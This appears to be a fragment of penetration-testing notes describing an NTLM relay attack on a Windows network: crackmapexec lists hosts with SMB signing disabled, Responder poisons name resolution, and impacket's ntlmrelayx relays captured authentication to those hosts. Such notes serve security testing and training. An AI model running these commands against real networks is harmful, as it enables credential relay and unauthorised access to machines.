 ![](<../../.gitbook/assets/image (219).png>)

we can also use crackmapexec to generate a list of all hosts in a network with SMB signing disabled:

```
crackmapexec smb 172.16.1.1/24 --gen-relay-list target.txt
```

#### <mark style="color:green;">turn off smb and http in responder settings</mark>

```
responder -I vboxnet0 -rdwv

apt install impacket-scripts

python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf target.txt -smb2support
```
